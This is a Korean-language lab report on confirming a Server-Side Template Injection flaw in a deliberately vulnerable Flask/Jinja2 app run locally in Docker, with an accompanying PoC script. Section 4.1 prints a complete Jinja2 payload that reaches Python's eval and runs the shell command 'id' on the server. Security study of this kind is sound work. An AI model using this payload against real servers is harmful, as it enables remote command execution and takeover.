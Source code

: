 # SSTI (Server-Side Template Injection) 취약점 실습 보고서

---

## 1. 실습 개요

- **주제**: Flask 기반 웹 서버의 SSTI(Server-Side Template Injection) 취약점 검증
- **목표**: Jinja2 템플릿 엔진의 취약점을 이용하여 서버 측 명령어를 실행하는 PoC 검증

---

## 2. 환경 구성

- **OS**: Windows 10 (PowerShell 사용)
- **Docker**: Docker Desktop for Windows
- **Python**: 3.x 버전
- **Flask 버전**: 3.0.3

### 사용한 주요 파일

| 파일명 | 설명 |
|:---|:---|
| docker-compose.yml | Flask 서버를 컨테이너로 띄우기 위한 설정 파일 |
| Dockerfile | Flask 앱을 컨테이너화하기 위한 설정 파일 |
| src/app.py | SSTI 취약점이 존재하는 Flask 웹 어플리케이션 |
| poc.py | SSTI 취약점을 이용해 공격을 수행하는 PoC 스크립트 |

---

## 3. 동작 흐름

### 3.1 Docker Compose로 서버 실행

```bash
docker compose up --build
```

**실행 화면 캡처:**

![Image](https://github.com/user-attachments/assets/daadfddf-5e53-4cf1-bc6a-9b7e64732820)
![Image](https://github.com/user-attachments/assets/496fb46c-71ec-4a10-88bd-6904319996f9)

---

### 3.2 웹 브라우저에서 SSTI 테스트

- URL 접근:

```
http://localhost:8000/?name={{7*7}}
http://localhost:8000/?name={{8*7}}
```

- 결과 화면:

![Image](https://github.com/user-attachments/assets/402e2e64-3c8e-492a-9f26-3ea9e106e2c9)
![Image](https://github.com/user-attachments/assets/f381ca1f-7c97-4e79-adb5-78b96683e8bd)

---

### 3.3 PoC 코드 실행

- `poc.py` 실행:

```bash
python poc.py
```

- 출력 결과:

![Image](https://github.com/user-attachments/assets/502dcf05-434b-4329-92a5-18b85075f404)
![Image](https://github.com/user-attachments/assets/08c1953d-7c9a-48d7-af3e-021ab99a0e15)

---

### 3.4 서버의 명령어 실행 결과

- 서버에서 `id` 명령어 결과를 반환:

![Image](https://github.com/user-attachments/assets/76a3486c-77d2-4990-8f5f-13b8809ddf9c)

---

## 4. 취약점 검증 (PoC)

### 4.1 SSTI 공격 페이로드

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %}
          {{ b['eval']('__import__("os").popen("id").read()') }}
        {% endif %}
      {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

- 해당 페이로드를 통해 서버 내부에서 명령어 실행(`id`)을 성공적으로 수행하였다.

---

## 5. 결과 요약

| 항목 | 결과 |
|:---|:---|
| SSTI 취약점 존재 여부 | o 존재 확인 |
| 명령어 실행 성공 여부 | o 서버 명령어(id) 실행 성공 |
| PoC 성공 여부 | o 성공적으로 서버 제어 |

---

## 6. GitHub 레포지터리

- 작업 결과 GitHub 레포지터리:  
[https://github.com/buddle031/secure-coding](https://github.com/buddle031/secure-coding)

---

## 7. 결론

본 실습을 통해 Flask/Jinja2 환경에서 발생 가능한 SSTI 취약점을 직접 검증하고, 서버 측 명령어 실행까지 성공하였다.  
이를 통해 서비스 개발 시 템플릿 렌더링 과정에서 입력값을 철저히 검증하고, 취약점을 예방하는 보안 조치가 필요함을 확인할 수 있었다.

--- 
